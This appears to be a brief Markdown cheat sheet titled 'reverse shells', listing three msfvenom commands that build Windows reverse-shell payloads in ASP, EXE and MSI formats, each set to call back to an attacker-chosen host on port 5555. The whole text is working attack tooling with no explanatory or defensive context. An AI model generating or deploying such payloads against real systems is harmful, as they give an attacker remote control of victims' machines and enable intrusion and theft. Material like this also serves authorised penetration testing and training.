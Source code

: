# reverse shells

# generate asp reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=5555 -f asp > shell.asp
```

# generate exe reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o reverse.exe
```

# generate msi reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f msi -o reverse.msi
```
